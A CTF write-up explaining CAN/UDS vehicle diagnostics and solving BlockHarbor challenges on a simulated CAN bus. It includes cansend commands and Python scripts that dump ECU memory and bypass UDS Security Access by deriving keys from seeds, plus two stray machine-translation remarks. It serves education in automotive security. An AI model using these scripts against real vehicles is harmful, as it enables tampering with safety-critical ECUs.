








[Research] Understanding CAN / UDS Vulnerabilities through BlockHarbor CTF and CVEs (EN)
Hello! I am newp1ayer48 from Hackyboiz, responsible for the low-level area! 🤸🏻♂️

In the automotive field, a communication protocol that is frequently used and applied is CAN communication. Security vulnerabilities can also occur in this CAN communication! Many CTFs and competitions are also being held targeting the automotive sector (Defcon also has a Car Hacking Village).
In this article, we’ll solve a problem from the BlockHarbor CTF, one of the most famous CTFs for vehicle hacking, to learn about vehicle communication and the resulting security vulnerabilities!
1. CAN Bus & UDS

CAN (Controller Area Network) communication is a protocol developed for communication between devices within a vehicle, such as ECUs (Electronic Control Units). It uses a message-based, low-level network communication system in a non-host bus manner. Since it was developed in 1983, it predates the HTTP protocol! A basic CAN message consists of 8 Bytes, and the extended version, CAN-FD (Flexible Data-rate), can represent data up to 64 Bytes.
Furthermore, the international standard for CAN communication is specified by ISO 15765.
](image03.png)
UDS stands for Unified Diagnostic Services, and you’ll frequently encounter this term when dealing with vehicle CTFs and CAN communication. It is a protocol used for diagnostic communication, primarily employed with ECUs. Since it is a higher-level protocol than the low-level CAN protocol, it allows for various functions such as data Read/Write (R/W).
The international standard for the UDS message structure operating over CAN communication was designated by ISO 15765.
Since knowing the UDS message structure is crucial for the BlockHarbor CTF challenge we are about to solve, let’s briefly look at it. The UDS message is structured as shown in the picture above. A simple explanation of each part is as follows:
- CAN ID: The ECU that will transmit or receive the message.
- PCI (Protocol Control Information): Primarily used for the length of the UDS message, Flow Control, etc.
- SID (Service Identifier): Identifies the requested service.
- Sub Function Byte: Detailed options for the SID.
- DID (Data Identifier): Identifies the data being accessed.
Now, I will explain some of the more important items among these.

The CAN ID values for each ECU are set as hexadecimal values according to ISO 15765-4.
7DFis primarily the identifier used for broadcasting to all ECUs or for internal functions/settings to be delivered to an ECU.- For transmission, the CAN IDs are designated as
7E0for ECU 1,7E1for ECU 2, and so on. - For reception, the ID is designated as the transmission value
+ 0x8.
The SID (Service Identifier) can simply be described as the identifier that signals what action (service) will be performed. Since the SID values are also standardized, you can directly check the SID value corresponding to a service through the document. The corresponding Response SID (RSID) value is the request SID value + 0x40. If the RSID, which is the response to the requested SID, is successfully received, it indicates that the communication was successful.
Additionally, there are commands among the SIDs that include a Sub Function Byte. This is used to designate a more detailed service request when an SID is requested. It is optional and may or may not be used, which can be confirmed by checking the documentation.
The DID (Data Identifier) is the identifier that refers to the data. Many DID values are also reserved according to the ISO-14229 standard, so you can check the document to find the appropriate DID value. The most representative example of a DID is the VIN (Vehicle Identification Number) value, which is F190. If you request this DID value along with an SID, the service corresponding to the SID will be executed targeting the VIN.
In the case of SIDs that use the Sub Function Byte, which we just explained, there are instances where a DID may not be necessary.
When solving the upcoming BlockHarbor CTF problems, it is absolutely essential to keep the SID and DID documentation pages open and look up the commands as you go!
1.1. CAN Utils

To transmit and receive CAN/UDS messages, you can use the can-utils tool. This tool is based on SocketCAN, which implements the CAN protocol on Linux. I’ll explain this using the example shown below.
candump -a vcan0,7E0:7FFcandump is a tool that allows you to receive CAN/UDS messages. By specifying the desired CAN network interface, you can receive CAN messages from that interface. In the example above , the -a option was added to show the ASCII results along with the CAN message, and masking arguments 7E0 and 7FF were added to receive data only from ECU 1.
When solving the CTF problems later, this command will be frequently used on one terminal to run and check the responses.
cansend vcan0 7DF#0322F190 && cansend vcan0 7E0#30000000cansend is a tool that allows you to transmit CAN/UDS messages. Similarly, it can send a CAN message to the desired CAN network interface. For the upcoming problems, you will need to construct the message by properly configuring the SID and DID according to the UDS format explained earlier and then transmit it.
Additionally, for cases where the response data is larger than the basic CAN message length of 8 Bytes, a commonly used technique is to send a Flow Control request, such as 30000000, along with the message to ensure all data is received.
By using cansend to transmit a message and then confirming the response data with candump, you can verify the entire CAN/UDS communication process.
2. Blockharbor CTF

BlockHarbor CTF is an Automotive Capture the Flag (CTF) competition created by the automotive cybersecurity company, Block Harbor. It is highly recommended for solving vehicle hacking problems because it provides a virtual CAN interface environment and a simulation environment for communication between ECUs, making it convenient for hands-on practice with CAN/UDS commands.
The site is broadly composed of two parts: the CTF Problem Site, which is built on the CTFd platform, and the VSEC site, which establishes the vehicle simulation environment. If you are new to CAN/UDS and vehicle systems, it is recommended that you start with the “Getting Started” problems on the CTF problem site.

When you connect to VSEC, navigate to Other - Learn - SIMULATIONS. By clicking the terminal icon on the right side of Proving Grounds, you can access the vehicle simulation environment’s terminal via the web in various environments. Since we will be solving the UDS Challenge problems, we will connect to the UDS Challenge terminal. If you are solving different problems, you can connect to another simulation terminal and use the environment appropriate for that problem.

When you connect via the terminal icon, you will access a tmux shell like the one shown above. You can solve the CTF problems you’ve identified within this environment.
2.1 tmux setting
To use the tmux terminal environment, you can configure a better problem-solving setup with a few tmux commands and settings. BlockHarbor itself has created a basic tmux introduction via their landing page. I will explain a few of the frequently used commands from that guide.

# Terminal splitting
Ctrl + b
%
# Terminal moving
Ctrl + b
← →
# Terminal scroll
Ctrl + b
[
# End scroll
Ctrl + cYou didn’t provide the list of tmux commands, but based on your comment, here is the translation emphasizing the general idea:
The commands and settings listed above are those that are frequently used in practice. Terminal splitting and navigation are used especially often. For additional settings or commands you may want, you can check the tmux intro or search online.
3. UDS Challenge

The UDS Challenge problems we will solve are tackled by performing the actions required by the problem using UDS commands and controlling the vehicle environment. The SID and DID used to solve the problems can be found in the documentation introduced earlier.
Let’s start solving the problems right away!
3.1. Simulation VIN

This problem requires you to retrieve the VIN (Vehicle Identification Number) using UDS.
The VIN is the Vehicle Identification Number, which was briefly discussed when explaining the commands earlier! The task is to query this value in the simulation environment.

The translation is:
First, by checking the network interfaces in the simulation environment, you can confirm the virtual CAN interface, vcan0. You should target this interface when transmitting and receiving CAN/UDS messages.

# listen 7E0, 7E8, 7DF
candump -a vcan0,7E0:7FF,7E8:7FF,7DF:7FF
# 03(PCI:len) 22(SID:ReadDataByIdentifier) F190(DID:VIN Data Identifier)
cansend vcan0 7DF#0322F190 && cansend vcan0 7E0#30000000To monitor the transmission and reception messages for the broadcast and ECU 1, I added masking for three CAN IDs in candump. Afterward, I combined the VIN DID and the Read Data By Identifier (SID) and transmitted the message. Since the response comes from ECU 1, by sending a Flow Control request to that ECU, the full VIN can be confirmed, and the flag can be identified!
e66fb3f67ac3:~$ candump -a vcan0,7E0:7FF,7E8:7FF,7DF:7FF
vcan0 7DF [4] 03 22 F1 90 '."..'
vcan0 7E8 [8] 10 14 62 F1 90 66 6C 61 '..b..fla'
vcan0 7E0 [4] 30 00 00 00 '0...'
vcan0 7E8 [8] 21 67 7B 76 31 6E 5F 42 '!g{ '
vcan0 7E8 [8] 22 48 6D 61 63 68 33 7D '" }'Let’s examine the received message in detail.
Upon making the Read Data By Identifier request (22), we can confirm the correct RSID (62) response. Following this, a large amount of data is returned, and continuous values like 21 and 22 are indicated before these data packets. This confirms that the data is continuous (a multi-frame transfer).
3.2. Startup Message

This problem asks about how to restart an ECU. It also states that the diagnostic information is broadcast using 7DF.

# listen 7E0, 7E8, 7DF
candump -a vcan0,7E0:7FF,7E8:7FF,7DF:7FF
# 02(PCI:len) 11(SID:ECU Reset) 01(SubFunc:Default Session)
cansend vcan0 7DF#021101The simple way to Restart the ECU is to send a Reset request (11). For the Reset request used in this problem, we use the Default Session (01) Sub Function Byte. Because of this, no separate DID is used.
When the ECU Reset request with the Default Session is transmitted, you can confirm the corresponding RSID response (51). Subsequently, you can also obtain the flag information!
3.3. Engine Trouble?

This problem requires reading the Diagnostic Trouble Codes (DTCs). You must authenticate the flag by matching the DTC format, which is typically Pxxxx-xx.

# listen 7E0, 7E8, 7DF
candump -a vcan0,7E0:7FF,7E8:7FF,7DF:7FF
# 03(PCI:len) 19(SID:ReadDTCInformation) 02(SubFunc:DTCStatusMask) 08(confirmedDTC)
cansend vcan0 7DF#03190208The problem can be solved by sending a Read DTC Information request (19). The DTC (Diagnostic Trouble Codes) can be viewed using a Status Mask. The detailed DTC Status Byte can be found in the AUTOSAR documentation.
The confirmed DTC is P3E9F-01. Since DTCs are used in OBD2 for vehicle diagnostics, you can refer to the corresponding standard, the ISO 15031 document, to understand how to interpret the DTC code.
3.4. Secrets in Memory?

This problem requires a Read Memory By Address request. The accessible memory area is stated to start from 0xC3F80000.

# listen 7E0, 7E8, 7DF
candump -a vcan0,7E0:7FF,7E8:7FF,7DF:7FF
# 07(PCI:len) 23(SID:ReadMemoryByAddress) 14(AALFId) C3F83000(addr) FF(255 Byte)
cansend vcan0 7DF#072314C3F83000FF && cansend vcan0 7E0#30000000Data in memory can be read using a memory read request (23).
A point to note here is that you must calculate and use the value (14) corresponding to the AddressAndLengthFormatIdentifier (AALFId) before specifying the address. You can understand the explanation of AALFId by referring to this video. Consequently, reading is possible by sending a read request for 255 (FF) bytes using the value 14, which requests the use of a 4-byte address and 1-byte length format.
import socket
import struct
def build_can_frame(can_id, data):
return struct.pack("=IB3x8s", can_id, len(data), data.ljust(8, b"\x00"))
def dissect_can_frame(frame):
can_id, dlc, data = struct.unpack("=IB3x8s", frame)
return can_id, data[:dlc]
recvdata = ""
with socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW) as p:
p.bind(("vcan0",))
p.settimeout(0.5)
for addr in range(0xC3F83000, 0xC3F865ff, 0xFF):
req_data = b"\x07\x23\x14" + addr.to_bytes(4, "big") + b"\xff"
p.send(build_can_frame(0x7DF, req_data))
try:
resp_frame = p.recv(16)
resp_id, resp_data = dissect_can_frame(resp_frame)
if resp_data:
recvdata += resp_data.hex()[6:]
except socket.timeout:
continue
flow_control_data = b"\x30\x00\x00\x00\x00\x00\x00\x00"
p.send(build_can_frame(0x7E0, flow_control_data))
for i in range(36):
try:
resp_frame = p.recv(16)
_, resp_data = dissect_can_frame(resp_frame)
tempdata = resp_data.hex()[2:]
if tempdata != "00000000000000":
recvdata += tempdata
except socket.timeout:
break
hex_data_string = recvdata
try:
byte_data = bytes.fromhex(hex_data_string)
ascii_string = byte_data.decode("ascii", errors="ignore")
print(ascii_string)
except ValueError:
print("error")Through the code above, data in the 0xC3F83000 range can be parsed.
Although the Python can module is typically used for CAN communication, it is unavailable in a simulation environment… Therefore, it was written using the socket module as a replacement.
When representing the CAN format with the Python socket module, the argument =IB3x8s must be provided.

The flag present in memory can be confirmed by executing the code.
3.5. Security Access Level 3

This challenge requires identifying the cryptographic algorithm for Security Access Level 3 and finding the corresponding key for the seed value 0x1337. As described in the problem, the length of both the seed and the key for Level 3 is 2 bytes.
](image22.png)
First, let’s look at the Security Access function provided by UDS.
Security Access is a service that controls access rights to the ECU. It’s helpful to think of higher numbers representing higher levels of authority. It is used with SID 27 after first changing to the Extended Diagnostic Session (10 - 03).
A seed value is generated, and a key is created through an internal cryptographic algorithm. Communication is performed in a way that grants access if authentication with the corresponding key value is successful. A key point here is that only when sending the key value, the request must be made using the access level value being accessed plus 1.

# listen 7E0, 7E8, 7DF
candump -a vcan0,7E0:7FF,7E8:7FF,7DF:7FF
# 02(PCI:len) 10(SID:DiagnosticSessionControl) 03(SubFunc:ExtendedSession)
cansend vcan0 7E0#021003
# 02(PCI:len) 27(SID:SecurityAccess) 03(Level)
cansend vcan0 7E0#022703
# 04(PCI:len) 27(SID:SecurityAccess) 04(Level+1) KEYS
cansend vcan0 7E0#042704KEYSAuthentication for Level 3 can be performed according to the Security Access authentication sequence.
First, after changing to the Extended Diagnostic Session (1030), the seed value 7E53 generated by the Security Access Level 3 request (2703) can be confirmed. Upon transmitting the corresponding key value, Security Access was successful, as confirmed by the Security Access RSID (67).
The cryptographic algorithm used was a simple one that performs a bitwise inversion of the seed value. Therefore, the flag can be obtained as the result of 0x1337 ^ 0xFFFF.
# security access level 3 pass
import socket
import struct
def build_can_frame(can_id, data):
return struct.pack("=IB3x8s", can_id, len(data), data.ljust(8, b"\x00"))
def dissect_can_frame(frame):
can_id, dlc, data = struct.unpack("=IB3x8s", frame)
return can_id, data
with socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW) as p:
p.bind(("vcan0",))
data1 = b"\x02\x10\x03\x00\x00\x00\x00\x00"
frame1 = build_can_frame(0x7E0, data1)
p.send(frame1)
while True:
frame_r = p.recv(16)
can_id, msg_data = dissect_can_frame(frame_r)
if can_id != 0x7E0:
break
data2 = b"\x02\x27\x03\x00\x00\x00\x00\x00"
frame2 = build_can_frame(0x7E0, data2)
p.send(frame2)
while True:
frame_r = p.recv(16)
can_id, msg_data = dissect_can_frame(frame_r)
if can_id != 0x7E0:
break
seed = msg_data.hex()[6:10]
print(f"Seed: {seed}")
key = f"{~int(seed, 16) & 0xFFFF:04X}"
print(f"Keys: {key}")
key_bytes = int(key, 16).to_bytes(2, 'big')
data3 = b"\x04\x27\x04" + key_bytes + b"\x00\x00\x00"
frame3 = build_can_frame(0x7E0, data3)
p.send(frame3)
while True:
frame_r = p.recv(16)
can_id, msg_data = dissect_can_frame(frame_r)
if can_id != 0x7E0:
break
print("Security access level 3 unlock!")
Additionally, the calculated key value must be transmitted within a very short time after confirming the seed value. Therefore, it is recommended to write code like the one above (though you can do it manually if you are fast enough).
3.6. Security Access Level 1

This challenge requires identifying the Security Access Level 1 cryptographic algorithm by reading the memory in the 0x1A000 range. The flag is the key value for the seed 0x7D0E1A5C. It is known that the seed and key lengths for Level 1 are 4 bytes.
Oddly, in this UDS Challenge, Level 1 is placed after Level 3.
# read memory
import socket
import struct
def build_can_frame(can_id, data):
return struct.pack("=IB3x8s", can_id, len(data), data.ljust(8, b"\x00"))
def dissect_can_frame(frame):
can_id, dlc, data = struct.unpack("=IB3x8s", frame)
return can_id, dlc, data
recvdata = ""
with socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW) as p:
can_id_filter = 0x7E8
can_mask_filter = 0xFFF
can_filter = struct.pack("=II", can_id_filter, can_mask_filter)
p.setsockopt(socket.SOL_CAN_RAW, socket.CAN_RAW_FILTER, can_filter)
p.setsockopt(socket.SOL_CAN_RAW, socket.CAN_RAW_RECV_OWN_MSGS, 0)
p.bind(("vcan0",))
for hex_value in range(0x1A000, 0x1B000, 0xFF):
candata = b"\x07\x23\x14" + hex_value.to_bytes(4, "big") + b"\xff"
data1 = b"\x02\x10\x02\x00\x00\x00\x00\x00"
frame1 = build_can_frame(0x7DF, data1)
p.send(frame1)
frame_r1 = p.recv(16)
frame2 = build_can_frame(0x7DF, candata)
p.send(frame2)
frame_r2 = p.recv(16)
can_id2, dlc2, data_r2 = dissect_can_frame(frame_r2)
recvdata += data_r2.hex()[6:]
data3 = b"\x30\x00\x00\x00\x00\x00\x00\x00"
frame3 = build_can_frame(0x7E0, data3)
p.send(frame3)
temp = 0
while temp < 36:
frame_r_loop = p.recv(16)
can_id_loop, dlc_loop, data_loop = dissect_can_frame(frame_r_loop)
tempdata = data_loop.hex()[2:]
if tempdata != "00000000000000":
recvdata += tempdata
temp = temp + 1
print(f"recv data: {recvdata}")First, write the code to perform a read operation on the memory in the 0x1A000 region.

Previously, execute the code that authenticates Level 3 first to pass the Level 3 authentication.
After that, if you execute the memory read code you just wrote, you can confirm that a 4-byte value exists twice. You can confirm that this value changes every time a seed value is generated through a security access Level 1 request.
>>> hex(0x983cb51b ^ 0xcd051f0c)
'0x5539aa17'
>>> hex(0xddee9870 ^ 0x88d73267)
'0x5539aa17'
>>> hex(0x4a4499ad ^ 0x1f7d33ba)
'0x5539aa17'It can be seen that performing an XOR operation on those values results in a fixed value of 0x5539aa17.
Through this, we can know that a key value calculated with the seed value exists in memory. And we can also know that the calculation algorithm is seed ^ 0x5539aa17.

# listen 7E0, 7E8, 7DF
candump -a vcan0,7E0:7FF,7E8:7FF,7DF:7FF
# 02(PCI:len) 10(SID:DiagnosticSessionControl) 03(SubFunc:ExtendedSession)
cansend vcan0 7E0#021003
# 02(PCI:len) 27(SID:SecurityAccess) 01(Level)
cansend vcan0 7E0#022701
# 06(PCI:len) 27(SID:SecurityAccess) 02(Level+1) KEYSKEYS
cansend vcan0 7E0#062702KEYSKEYSWhen attempting Security Access Level 1 authentication using the discovered encryption algorithm, it can be seen that it succeeds, confirming the RSID (67).
# security access level 1 pass
import socket
import struct
def build_can_frame(can_id, data):
return struct.pack("=IB3x8s", can_id, len(data), data.ljust(8, b"\x00"))
def dissect_can_frame(frame):
can_id, dlc, data = struct.unpack("=IB3x8s", frame)
return can_id, data
with socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW) as p:
p.bind(("vcan0",))
data1 = b"\x02\x10\x03\x00\x00\x00\x00\x00"
frame1 = build_can_frame(0x7E0, data1)
p.send(frame1)
while True:
frame_r = p.recv(16)
can_id, msg_data = dissect_can_frame(frame_r)
if can_id != 0x7E8:
continue
break
data2 = b"\x02\x27\x01\x00\x00\x00\x00\x00"
frame2 = build_can_frame(0x7E0, data2)
p.send(frame2)
while True:
frame_r = p.recv(16)
can_id, msg_data = dissect_can_frame(frame_r)
if can_id != 0x7E8:
continue
break
seed_bytes = msg_data[3:7]
seed_int = int.from_bytes(seed_bytes, 'big')
print(f"Seed: {seed_int:08X}")
key_int = seed_int ^ 0x5539AA17
print(f"Key: {key_int:08X}")
key_bytes = key_int.to_bytes(4, 'big')
data3 = b"\x06\x27\x02" + key_bytes
frame3 = build_can_frame(0x7E0, data3)
p.send(frame3)
while True:
frame_r = p.recv(16)
can_id, msg_data = dissect_can_frame(frame_r)
if can_id != 0x7E8:
continue
break
print("Security access level 1 unlock!")
The code to unlock Security Access Level 1 can also be written.

4. CVEs occurring due to UDS commands

Security vulnerabilities can occur with UDS commands learned through the BlockHarbor CTF, and there are actual cases where CVEs are issued. A prime example is CVE-2024-6347, which occurred in the Nissan Altima.
CVE-2024-6347 is a case where a DoS vulnerability occurred via UDS commands. The DoS vulnerability was caused by unauthorized access to the ECU programming session in the blind spot detection sensor ECU firmware.
Furthermore, vulnerabilities through CAN/UDS can include Information Leakage through Read Data By Identifier Request (22) and various Diagnostic Requests (19, etc.), and the acquisition of ECU and in-vehicle privileges through Security Access (27) bypass. In particular, if validation for Read Memory By Address Request (23) is inadequate, the firmware can be leaked through internal memory access.
Therefore, rigorous validation of CAN/UDS messages and access control for security access can be said to be the most fundamental elements in vehicle security.
Next time, I will return with a different embedded topic! Thank you! 👋🏻

본 글은 CC BY-SA 4.0 라이선스로 배포됩니다. 공유 또는 변경 시 반드시 출처를 남겨주시기 바랍니다.